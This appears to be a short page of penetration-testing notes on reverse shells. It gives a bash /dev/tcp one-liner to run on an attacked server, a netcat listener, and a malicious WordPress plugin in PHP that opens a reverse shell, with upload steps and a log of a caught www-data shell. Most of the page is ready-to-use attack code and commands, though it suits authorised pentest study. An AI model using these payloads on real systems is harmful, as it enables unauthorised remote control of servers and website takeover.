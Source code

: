 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

### Reverse Shell via Bash TCP

We start by Listening in our host first `~$ nc -nvlp PORT_NUMBER` ; then we execute the below command on the attacked server:

{% hint style="info" %}
To ensure our reverse shell is executed via bash, make sure to add `bash -c`&#x20;
{% endhint %}

```bash
bash -c "bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"
```

Check this [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) by swissky.

### Reverse Shell via Wordpress Plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```sh
zip reverse-shell.zip reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

after activating it,  use netcat to listen on port 443 and catch the shell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443                          
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@example:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```



**Resources:**

* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
